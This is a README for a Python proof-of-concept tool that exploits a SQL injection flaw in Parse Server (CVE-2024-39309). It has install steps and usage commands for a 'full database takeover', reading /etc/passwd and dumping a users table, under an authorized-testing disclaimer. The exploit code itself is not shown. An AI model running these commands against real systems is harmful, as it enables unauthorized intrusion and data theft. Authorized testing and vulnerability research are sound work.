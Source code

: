 Database Ghost 🔥
Advanced PostgreSQL SQL Injection Exploitation Tool
<p align="center"> <img src="https://img.shields.io/badge/Python-3.6%2B-blue?style=for-the-badge&logo=python" alt="Python"> <img src="https://img.shields.io/badge/PostgreSQL-SQL%20Injection-red?style=for-the-badge&logo=postgresql" alt="PostgreSQL"> <img src="https://img.shields.io/badge/CVE-2024--39309-orange?style=for-the-badge" alt="CVE-2024-39309"> <img src="https://img.shields.io/badge/License-MIT-green?style=for-the-badge" alt="License"> </p>

🚨 DISCLAIMER
FOR AUTHORIZED SECURITY TESTING ONLY
Unauthorized use is illegal. Use only on systems you own or have explicit permission to test.

⚡ QUICK START
Install & Run

```
git clone https://github.com/HeavyGhost-le/POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0.git
cd POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0
pip install requests
chmod +x star_ghost_english.py
```

Basic Usage
```
# Full database takeover
python3 star_ghost_english.py -u http://target:1337 -a your-app-id

# Read system files
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -f /etc/passwd

# Steal database data
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -t users
```
